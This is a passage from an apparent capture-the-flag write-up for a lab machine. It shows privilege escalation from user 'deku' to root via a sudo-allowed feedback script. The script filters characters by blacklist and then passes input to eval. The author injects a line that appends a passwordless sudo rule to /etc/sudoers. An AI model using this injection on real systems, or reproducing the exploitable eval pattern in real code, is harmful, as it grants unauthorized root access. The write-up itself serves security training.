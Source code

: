 Using the credentials, I was able to switch to the `deku` user and retrieve the user flag:
```bash
deku@myheroacademia:~$ cat user.txt 
  THM{W[removed]?}
```

## Privilege Escalation root

I continued by running `sudo -l` and received the following output:
```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

A Bash script in the output seemed interesting, so analyzed it:
```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

The use of the `eval` command stood out, as it was echoing the input I provided. I was able to exploit this by injecting the following input:
```bash
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh 
  Hello, Welcome to the Report Form       
  This is a way to report various problems
      Developed by                        
          The Technical Department of U.A.
  Enter your feedback:
  deku ALL=NOPASSWD: ALL >> /etc/sudoers
  It is This:
  Feedback successfully saved.
```

